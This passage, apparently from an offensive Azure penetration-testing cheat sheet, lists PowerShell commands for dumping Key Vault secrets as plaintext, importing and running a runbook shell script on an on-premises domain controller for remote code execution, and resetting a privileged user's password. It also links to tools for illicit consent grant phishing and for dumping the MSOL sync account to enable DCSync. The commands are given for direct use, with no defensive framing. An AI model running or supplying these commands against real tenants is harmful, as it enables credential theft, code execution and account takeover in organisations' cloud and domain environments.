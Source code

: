 ```powershell
Uri = $URI
Headers = @{ 'Authorization' = "Bearer $accessToken" } }
(Invoke-RestMethod @RequestParams).value
```

## Dump Secerets Vault
```powershell
Get-AzKeyVault | fl *

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault  -Name paul-localkeys -AsPlainText | fl *
```

## Gaining RCE from RunBooks
```powershell
Import-AzAutomationRunbook -Name Wowieee -Path C:\tools\shell.ps1 -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Type PowerShell -Force -Verbose

Publish-AzAutomationRunbook -RunbookName Wowieee -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose 

Start-AzAutomationRunbook -RunbookName Wowieee -RunOn OnpremInternalDC -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose
```

## Use Powershell AZ to reset a user password
```powershell
$password = "MyStr0ngPassw0rd1" | ConvertTo-SecureString -AsPlainText -Force

(Get-AzureADUser -All $true | ?{$_.UserPrincipalName -eq
"DevOpsApprover@example.onmicrosoft.com"}).ObjectId |
Set-AzureADUserPassword -Password $Password -Verbose
```

## Abusing illicit consent grant
### Validate the issue exists
[Cloud Misconfiguration & Risks - Azure](https://misconfig.io/cloud-misconfiguration-risks-azure/)
### Exploitation
[Introduction To 365-Stealer - Understanding and Executing the Illicit Consent Grant Attack (alteredsecurity.com)](https://www.alteredsecurity.com/post/Introduction-To-365-Stealer)
[GitHub - AlteredSecurity/365-Stealer: 365-Stealer is a phishing simualtion tool written in python3. It can be used to execute Illicit Consent Grant Attack.](https://github.com/AlteredSecurity/365-Stealer)


## Dump MSOL Password
[Updated method of dumping the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync · GitHub](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c)
